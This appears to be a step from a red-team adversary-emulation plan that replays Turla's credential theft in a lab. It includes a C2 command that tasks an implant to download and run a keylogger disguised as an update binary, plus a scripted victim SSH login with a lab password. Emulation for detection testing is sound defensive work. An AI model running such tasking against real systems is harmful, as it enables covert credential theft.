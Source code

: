 ### :microscope: Cited Intelligence

* <https://www.ncsc.admin.ch/ncsc/en/home/dokumentation/berichte/fachberichte/technical-report_apt_case_ruag.html>
* <https://symantec-enterprise-blogs.security.com/blogs/threat-intelligence/waterbug-espionage-governments>
* <https://www.welivesecurity.com/2019/05/29/turla-powershell-usage/>
* <https://www.welivesecurity.com/2017/03/30/carbon-paper-peering-turlas-second-stage-backdoor/>

<br>

## Step 8 - Credential Access on Admin Host

:microphone: `Voice Track:`

Step 8 emulates Turla dropping a custom keylogger binary (`wingtsvcupdt.exe`) on
`Adalwolfa`'s workstation and harvesting credentials from the system.

Once the tools have been dropped by the CARBON-DLL, the keylogger is executed
and begins logging keystrokes to `%temp%\~DFA512.tmp` The keylogger is used
to collect SSH credentials that `Adalwolfa` was using on their system while the
keylogger was running.

Meanwhile, Adalwolfa is using their Edge browser session to visit the website
hosted by the Apache server to check one of the pages. The user then opens
PowerShell and connects to the Apache server via SSH, where their plaintext
credentials are captured by the keylogger. `Adalwolfa` then navigates to the
directory containing the webpage file on the Apache server and opens the file
to make a small change.

---

### ☣️ Procedures

* From your Kali C2 server terminal window, task the CARBON-DLL on Adalwolfa's workstation to download and execute the
keylogger binary in the background:

```bash
./evalsC2client.py --set-task c6f2aa03 '{"id": 0, "payload": "keylogger.exe", "payload_dest": "C:\\Windows\\Temp\\wingtsvcupdt.exe", "cmd": "C:\\Windows\\Temp\\wingtsvcupdt.exe -r"}'
```

:arrow_right: Wait 1 minute and then return to your RDP session to `khabibulin (10.20.20.104)` as `adalwolfa`.

* From the workstation, as the `Adalwolfa` user account:
  * Open Edge.
  * :heavy_exclamation_mark: **Type in full, do not copy or autocomplete,** <http://kagarov/index.html> into the address bar and press enter.

* Open a PowerShell terminal and **type do not copy** the SSH command:

ssh adalwolfa@10.20.10.23

* **Type do not copy** the SSH password `Password2!` when prompted.
